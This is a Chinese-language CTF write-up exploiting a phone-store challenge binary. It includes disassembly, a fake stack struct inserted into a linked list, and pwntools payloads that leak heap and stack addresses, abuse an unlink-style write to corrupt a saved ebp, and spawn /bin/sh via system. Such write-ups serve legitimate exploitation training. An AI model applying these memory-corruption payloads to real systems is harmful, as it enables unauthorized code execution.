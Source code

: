 

## Struct

```C
struct phone
{
    (char*) name;
    int price;
    (phone*) next;  // +8
    (phone*) prev;  // +C
};
```

## Vuln

```assembly
.text:08048B64                 mov     dword ptr [esp], offset aIphone81 ; "*: iPhone 8 - $1"
.text:08048B6B                 call    _puts
.text:08048B70                 mov     dword ptr [esp+8], offset aIphone8 ; "iPhone 8"
.text:08048B78                 mov     dword ptr [esp+4], offset aS ; "%s"
.text:08048B80                 lea     eax, [ebp+$buf]
.text:08048B83                 mov     [esp], eax ; char **
.text:08048B86                 call    _asprintf
.text:08048B8B                 mov     [ebp+var_1C], 1
.text:08048B92                 lea     eax, [ebp+$buf]
.text:08048B95                 mov     [esp], eax
.text:08048B98                 call    insert
.text:08048B9D                 add     [ebp+var_28], 1
```
漏洞并不明显，但是猜测可能就是这个地方。<br>
稍微分析可知，这里把栈帧当作phone结构体插入了phone的list中。<br>
要进入这个过程，还需要将价格总和等于7174，可以写脚本爆破
```assembly
.text:08048B5B                 cmp     [ebp+var_28], 7174
.text:08048B62                 jnz     short loc_8
```
最终选一组进行add即可
```Python
for i in range(19):
    add(1)  # 199
for i in range(6):
    add(3)  # 499
add(4)  #399
```

### debug
通过调试能够清楚的了解程序checkout执行后流程<br>
```Python
checkout("y")
```
这样就在末尾添加了一个位于栈上的结构fake_phone。<br>
这里有趣的是，my_read函数每次读取的buf。比如构造如下，进行read
```Python
payload = 'y'+'\x00'+p32(elf.got['malloc'])+p32(0)+p32(0)
cart(payload)
```
本来是只要y字符。但是在加了后面的一点后，可以发现正好就落在fake_phone上
```assembly
                    -2      <- buf
+0 ?????????    ?????????   <- fake_phone (buf+2)
+8   next         prev      
```

## Exp

### leak
根据可以任意覆盖最后一个块，我们就可以覆盖name指针，leak出libc, heap, stack。
```Python
payload = 'y'+'\x00'+p32(start_list_addr)+p32(0)+p32(0)
cart(payload)
io.recvuntil("27: ")
heap_addr = u32(io.recv(4))
log.info("heap address:"+hex(heap_addr))
```
需要注意的是覆盖的next指针必须是0，不然程序可能无限循环或导致异常。

### exploit
在leak完之后，就需要通过这个漏洞更改指针<br>
```C
next = P->next;
prev = P->prev;
if(next!=0)
    *(next+0x08) = prev;
if(prev!=0)
    *(prev+0x0C) = next;
```

#### change

检测比unlink弱多了<br>
本来想直接更改got表，但是程序段是不可写的。比如
```assembly
prev -> system_addr
next -> atoi_got-0x08
```
流程就会如下:
1. (atoi_got-0x08+0x08) = system_addr
2. (system_addr+0x0C) = atoi_got
明显2会导致异常<br>
再考虑改栈上，如果该esp返回地址，很明显也不行。<br>
最后的方法是改ebp指向的指针。在函数返回的时候，ebp会通过 leave 恢复。<br>
更改该值，从而改变ebp
```Python
payload = str(27) + '\x00'*4 + p32(system_addr) + p32(stack_addr+0x04+0x22+0x20) + p32(stack_addr+0x20-0x08)
payload = payload.ljust(0x15, chr(0))
fake_del(payload)
```

####  buf?
再往后，又可以发现，返回到hanler函数的时候，ebp已经改变了<br>
又由于程序通过ebp进行偏移，确定buf地址
```assembly
.text:08048BFD                 mov     dword ptr [esp+4], 15h ; nbytes
.text:08048C05                 lea     eax, [ebp+nptr]
.text:08048C08                 mov     [esp], eax ; buf
.text:08048C0B                 call    my_read
```
那么，改变ebp即可改变buf读取地址，而buf有0x15的大小，足够进行利用了。

### orz
```Python
'''
cmds = "sh".ljust(4, chr(0)) + p32(stack_addr+0x44+0x1C)
payload = '6\x00' + cmds + p32(system_addr) + p32(stack_addr+0x44) + p32(stack_addr+0x1C)
#payload = payload.ljust(0x15, chr(0))
'''
cmds = "/bin/sh\x00"
payload = p32(system_addr) + p32(stack_addr+0x30) + p32(stack_addr+0x30) + cmds
payload = payload.ljust(0x15, chr(0))
fake_leave(payload)
```
明明已经ret到system了，但一直不成功，最后发现原因是我把"/bin/sh"字符串存在ret地址上方，这样会造成system运行过程中对字符串破坏，从而影响exp

## summary
总得来说并不难，但是有许多细节需要注意，而且对于栈的分配要很清楚地理解，对于unlink类似的操作也要熟悉。
